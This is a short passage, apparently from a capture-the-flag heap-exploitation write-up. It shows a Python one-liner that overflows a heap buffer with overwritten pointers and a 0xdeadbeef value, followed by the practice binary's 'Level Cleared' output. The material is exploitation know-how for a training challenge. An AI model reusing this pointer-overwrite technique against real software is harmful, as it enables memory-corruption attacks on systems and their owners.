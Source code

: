 ```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h2_64$ python -c 'print "0"*32 + "\x70\x20\x60\x00\x00\x00\x00\x00" + "0"*56 + "\xb0\x20\x60\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde"' | ./h2_64 
Alpha Centari is 00000000000000000000000000000000� ` light years away.
The center of the milky way galaxy is far far away.
The asteroid is -559038737 parsecs away.
It's funny how much a researcher can tell from light. Level Cleared!
Imagine how long it will be, untill a researcher that is working hard is living on Mars. You wouldn't know since your not researching.
```

Just like that we pwned the binary. 
